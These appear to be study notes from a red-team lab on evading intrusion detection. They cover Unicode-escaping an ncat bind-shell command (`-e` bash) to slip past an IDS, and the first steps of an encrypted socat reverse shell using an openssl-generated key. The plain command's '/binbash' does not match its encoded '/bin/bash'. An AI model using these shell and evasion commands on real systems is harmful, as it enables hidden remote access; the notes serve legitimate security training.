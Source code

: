 	1. Search for "Escape Unicode Characters"
	2. Drag it to the "Recipe" column
	3. Ensure you a check-mark near "Encode all chars" with a prefix of "\u".
	4. Ensure you have a check-mark near "Uppercase hex" with a padding of 4.

![](/assets/img/Pasted image 20230126173614.png)

`$ ncat -lvnp 1234 -e /binbash`

<u>Encoded version</u>:

`\u006E\u0063\u0061\u0074\u0020\u002D\u006C\u0076\u006E\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002D\u0065\u0020\u002F\u0062\u0069\u006E\u002F\u0062\u0061\u0073\u0068`

- It is clearly a drastic transformation that would help you evade detection, assuming the target system will interpret it correctly and execute it.


### Encrypt the Communication Channel

- Because an IDS/IPS won't inspect encrypted data, an attacker can take advantage of encryption to evade detection.
- Unlike encoding, encryption requires an `encryption key`.


- One direct approach is to create the necessary encryption key on the attacker's system and set `socat` to use the encryption key to enforce encryption as it listens for incoming connections.
- An `encrypted reverse shell` can be carries out in three steps:

		1. Create a key
		2. Listen on the Attacker's machine.
		3. Connect to the attacker's machine.


##### 1. Create an encryption key using `OpenSSL`:

- Firstly, on the AttackBox or any Linux system, we can create the key using `openssl`.

`$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt`

	Breakdown:
	- "req" : indicates that this is a certificate signing request. Obviously, we won't submit our certificate for signing.
	- "x509": specifies that we want an "X.509" certificate. Binds an identity to a public key using a digital signature
	- "-newkey rsa:4096" : creates a new certificate request and a new private key using RSA, with the key size beign 4096 bits. (You can use other options for RSA key size, such as "-newkey rsa:2048")
	- "-days 365" : shows that the validity of our certificate will be one year.
	- "-subj" : sets data, such as organization and country, via the command-line.
	- "-nodes" : simplifies our command and does not encrypt the private key.
	- "-keyout PRIVATE_KEY" : specifies the filename where we want to save our private key.
	- "-out CERTIFICATE" : specifies the filename to which we want to write the certificate request.

- What it return:

		- thm-reverse.key
		- thm-reverse.crt
